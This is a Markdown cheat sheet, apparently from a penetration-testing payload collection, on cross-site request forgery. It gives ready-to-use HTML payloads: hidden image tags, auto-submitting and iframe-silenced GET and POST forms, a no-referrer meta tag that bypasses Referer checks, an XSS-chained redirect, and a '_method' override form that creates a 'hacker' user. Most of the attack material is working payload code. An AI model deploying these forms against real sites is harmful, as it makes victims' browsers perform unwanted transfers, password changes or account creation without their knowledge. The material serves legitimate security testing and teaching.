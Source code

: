 # CSRF

>Cross-Site Request Forgery (CSRF) is a type of attack that occurs when a malicious web site, email, blog, instant message, or program causes a user’s web browser to perform an unwanted action on a trusted site for which the user is currently authenticated. The impact of a successful CSRF attack is limited to the capabilities exposed by the vulnerable application. For example, this attack could result in a transfer of funds, changing a password, or purchasing an item in the user's context. In effect, CSRF attacks are used by an attacker to make a target system perform a function via the target's browser without knowledge of the target user, at least until the unauthorized transaction has been committed.

Source : [OWASP](https://www.owasp.org/index.php/Cross-Site_Request_Forgery_(CSRF)_Prevention_Cheat_Sheet)


## CSRF is possible when ...

* Request is known in advance and is not composed of any random values unknown from the attacker

* Server do not check the `Referer` Header

* Action should be an interesting for the attacker 
	* Password Change
	* Settings Change
	* Personal Informations Change
	* ...

## GET Requests Exploits

### Invisible mage Loading
`<img style="display:none;" src="http://vulnerablesite/vuln?param1=value1&param2=value2&..."/>`

### Link clicking
`<link href="http://vulnerablesite/vuln?param1=value1&param2=value2&...">`

### Form Auto-Submission
```html
<html>
	<head>
  		<meta charset="UTF-8">
	</head> 	
	<body>
		<form action="http://vulnerablesite/vuln" method="GET"> 
			<input type="hidden" name="param1" value="value1"/>
		</form>
		<script> document.forms[0].submit();</script>  
	</body>
</html>
```

### Silent Form Auto-Submission (No Redirection)
```html
<html> 
	<head>
  		<meta charset="UTF-8">
	</head> 
	<body>
		<iframe style="display:none" name="invisible-frame"></iframe>
		<form method='GET' action='http://vulnerablesite/vuln' target="invisible-frame" id="pwn-form">
		  <input type='hidden' name='param1' value='value1'>
		  <input type='submit' value='submit'>
		</form>
		<script>document.getElementById("pwn-form").submit()</script>
	</body>
</html>

```

## POST Requests Exploits

### Form Auto-Submission
```html
<html> 
	<head>
  		<meta charset="UTF-8">
	</head> 
	<body>
		<form action="http://vulnerablesite/vuln" method="POST"> 
			<input type="hidden" name="param1" value="value1"/>
		</form>
		<script> document.forms[0].submit();</script>  
	</body>
</html>
```

### Silent Form Auto-Submission (No Redirection)
```html
<html> 
	<head>
  		<meta charset="UTF-8">
	</head> 	
	<body>
		<iframe style="display:none" name="invisible-frame"></iframe>
		<form method='POST' action='http://vulnerablesite/vuln' target="invisible-frame" id="pwn-form">
		  <input type='hidden' name='param1' value='value1'>
		  <input type='submit' value='submit'>
		</form>
		<script>document.getElementById("pwn-form").submit()</script>
	</body>
</html>

```

## DELETE / PUT Requests Exploits

* `PUT` or `DELETE` requests using HTML forms is not possible as these methods are currently not supported by HTML5 Forms.

* CSRF is possible with the `PUT` and `DELETE` methods, but only with CORS enabled with an unrestrictive policy.

## Protection Bypass

### Referer Header Check Bypass

#### Send a request with no `Referer` header 

`<meta name="referrer" content="no-referrer">`

#### Chain CSRF vulnerability with XSS

`POST http://vulnerablesite/xssvuln?id=<script type="text/javascript">window.location="http://vulnerablesite/vuln";</script>`

### HTTP Method Check Bypass through HTTP Method Tunneling :

#### `X-HTTP-Method-Override` Method

Not all clients can properly issue all HTTP Methods, then some servers offer an HTTP Method Tunneling feature that enables us to "encapsulate" an HTTP Method into another. To do so simply write the HTTP Method request to invoke in an `X-HTTP-Method-Override` HTTP Header and issue the request with a supported method.

This is also a very handy trick to bypass Firewall restrictions on HTTP methods.


#### `_method` Parameter Method

**Supported on :**

**Symfony**

* 2.2 / >=2.3 ([Disabled by default / Enabled by default](https://symfony.com/doc/2.6/cookbook/routing/method_parameters.html#faking-the-method-with-method))

**Laravel**

* \>=4.1 ([Enabled by default](https://laravel.com/docs/5.6/routing#form-method-spoofing))

```html
<html>
	<body>
		<form action="http://[HOST]/user/add" method="POST">
			<input name="_method" type="hidden" value="ARBITRARY_METHOD" />
			<input name="user" type="hidden" value="hacker" />
			<input name="password" type="hidden" value="pwd" />
		</form>
		<script>document.forms[0].submit()</script>
	</body>
</html>
```

#### References : 

[Minded Security - Request parameter "_method" may lead to CakePHP CSRF Token Bypass](http://blog.mindedsecurity.com/2016/01/request-parameter-method-may-lead-to.html)
